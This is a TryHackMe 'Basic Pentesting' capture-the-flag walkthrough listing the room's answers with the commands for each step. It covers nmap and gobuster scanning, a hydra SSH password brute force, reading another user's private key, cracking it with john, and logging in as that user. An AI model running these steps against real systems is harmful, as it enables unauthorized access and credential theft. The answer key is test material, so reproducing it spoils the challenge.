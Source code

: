 # [BASIC PENTESTING](https://tryhackme.com/r/room/basicpentestingjt)  👨‍💻





◌ Deploy the machine and connect to our network
   
   ● ***No answer needed***



◌ Find the services exposed by the machine
   
   ● ***No answer needed***

   **Command:**
   > nmap -sV -A [Target_Machine_IP]



◌ What is the name of the hidden directory on the web server(enter name without /)?
   
   ● ***development***

   **Command:**
   > gobuster dir -u http://[Your_Target_IP] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt



◌ User brute-forcing to find the username & password
   
   ● ***No answer needed***

   **Command:**
   > enum4linux -e [Target_Machine_IP]




◌  What is the username?

   ● ***jan***



◌ What is the password?

   ● ***armando***

   **Command:**
   > hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://[TARGET_MACHINE_IP]




◌ What service do you use to access the server(answer in abbreviation in all caps)?

   ● ***SSH***

   **Command:**
   > ssh jan@[TARGET_MACHINE_IP]



◌ Enumerate the machine to find any vectors for privilege escalation

   ● ***No answer needed***

   **Command:**
   > cd /home/kay
   > cd .ssh
   > cat id_rsa
   
   **Command:**
   > python3 /opt/john/ssh2john.py id_rsa.txt > decrypted.txt

   **Command:**
   > john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt

   **Command:**
   > ssh -i /home/kay/.ssh/id_rsa kay@[TARGET_MACHINE_IP]




◌ What is the name of the other user you found(all lower case)?

   ● ***kay***


◌ If you have found another user, what can you do with this information?

   ● ***No answer needed***

  



◌ What is the final password you obtain?

   ● ***heresareallystrongpasswordthatfollowsthepasswordpolicy$$***

   **Command:**
   > cat pass.bak

   🥳🥳🥳































